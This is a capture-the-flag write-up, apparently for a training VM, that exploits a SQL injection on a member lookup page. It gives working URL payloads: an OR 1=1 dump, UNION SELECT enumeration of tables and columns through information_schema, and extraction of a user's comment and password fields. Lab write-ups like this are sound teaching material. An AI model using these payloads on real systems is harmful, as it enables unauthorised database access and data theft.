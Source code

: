 # SQL Injection

url: http://192.168.56.110/?page=member

This URL connects to the MySQL database to list information about members and is vulnerable to SQL injections.

Exploitation in a few steps:

1. List all members with OR 1=1

```
http://192.168.56.110/?page=member&id=1%20OR%201=1&Submit=Submit#
```

We notice that one user has the name "Get The" and "Flag". We assume the flag is hidden in some properties of the user not displayed in this search.

2. Enumerate the database tables

We used a union select attack in order to list more information about the database and write it instead of the user' first name.

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema%20=%20database()%20--%20-&Submit=Submit#
```

![Result of the union select attack to list the tables from the database](./Resources/enumerate_tables.png)

3. Enumerate the users' columns

```
http://192.168.56.110/?page=member&id=1%20%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%20database()%20--%20-&Submit=Submit#
```
![Result of the union select attack to list the columns from the users table](./Resources/enumerate_columns.png)

We now know the id of user "Get the Flag" and can narrow the injection to only display this user's information


4. List the other fields of the Get The Flag user

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(Commentaire,countersign),2%20from%20users%20where%20user_id=5--%20-&Submit=Submit#
```

![Commentary field from Get The Flag](./Resources/GetTheFlag.png)


Then we just have to do what the commentary ask and we have the flag.

Source: https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt